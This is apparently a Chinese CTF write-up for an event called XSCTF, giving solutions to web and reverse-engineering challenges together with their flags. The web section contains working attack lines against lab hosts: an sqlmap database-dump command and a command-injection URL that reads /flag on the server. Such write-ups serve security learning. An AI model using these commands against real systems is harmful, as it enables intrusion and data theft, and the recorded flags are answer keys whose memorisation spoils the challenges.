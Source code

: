 ##### 【新生专属】saveSaofe1a_partA
python3 sqlmap.py -u [http://43.248.97.213:31234/?inject=1](http://43.248.97.213:31234/?inject=1) --dump  
即可拿到retrieved: '小美','3','做ctf题目并找到flag:XSCTF{Saofe1a_r3a11y_l0ve_xiaomei}','114514'

##### 【新生专属】燕子不要走~
使用分号隔开后面的东西即可。  
[http://43.248.97.213:42336/?cmd=cat%20/flag](http://43.248.97.213:42336/?cmd=cat%20/flag);

## Reverse
##### Ro1ling~
发现为pyinstaller，用pyinstxtractor解压后得到Ro1ling.pyc，反编译即可得到：  
secret_message = '𝙓𝙎𝘾𝙏𝙁{𝙁0𝙧_0𝙣𝙘3_𝙮0𝙪_𝙝4𝙫3_7𝙖57𝙚𝙙_𝙛𝙡𝙞𝙜𝙝𝙩_𝙮0𝙪_𝙬1𝙡𝙡_𝙬4𝙡𝙠_7𝙝3_3𝙖𝙧7𝙝_𝙬17𝙝_𝙮0𝙪𝙧_3𝙮35_7𝙪𝙧𝙣3𝙙_5𝙠𝙮𝙬4𝙧𝙙5}'  
提交XSCTF{F0r_0nc3_y0u_h4v3_7a57ed_flight_y0u_w1ll_w4lk_7h3_3ar7h_w17h_y0ur_3y35_7urn3d_5kyw4rd5}  
即可得分

##### Running~
RUN!  
node Running > a.txt  
用文本编辑器打开即可。

![](/images/b1dbbe35733e8e17d788a0b4b5658fb4.png)

##### loglistening
adb install，然后  
$ adb logcat | grep -F "flag{"  
11-02 22:02:34.042 10586 10586 I xilo    : flag{4724110e8c8a83c123d6df82efee8c53}

